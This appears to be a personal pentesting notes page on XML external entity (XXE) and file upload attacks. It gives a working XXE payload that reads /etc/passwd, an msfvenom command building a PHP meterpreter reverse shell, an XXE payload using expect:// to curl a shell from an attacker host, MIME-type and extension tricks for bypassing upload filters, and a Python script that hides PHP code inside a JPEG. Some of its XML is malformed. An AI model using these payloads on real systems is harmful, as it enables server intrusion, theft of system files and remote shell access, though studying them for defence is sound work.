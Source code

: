 #### THis is used to read local files on server
<!- - ?xml version="1.0" ?- ->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/passwd"> ]>
<userinfo>
<user>
&ent;
</user>
</useinfo>

WE can also use the above command and replace file with expect command

### REmote xxe


we can use this to upload a shell to server

instead of .php shell we should make .txt shell with msfvenom because these attacks sometimes run the php shell 
on our machine

> msfvenom -p php/meterpreter/reverse_tcp LHOST=10.4.30.255 LPORT=6969 -f raw > shell.txt

<!- - ?xml version="1.0" ?- ->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "expect://curl$IFS'10.4.30.255:80/shell.php'"> ]>
<userinfo>
<user>
&ent;
</user>
</useinfo>



## FIle uploads attacks

try different extensions like .pHp,.php5,.phtml etc 
there are diffferent extensions for single technology

mime-type shows us content type inside a file regardless of its extension,we can change this and trick the server

we can check a file content type by following

> file --mime-type filname.extension

sometimes try changing the content type in burp because servers verify sometimes from there

for example we can change the application/x-php to image/jpeg if server accepts images etc

#### Hidiing malcious code in an image

use a white jpg image

  #!/bin/python3
hideme=open('file.jpg','rb').read()
hideme+=open('test.php','rb').read()
open('hideme.php3','wb').write(hideme)
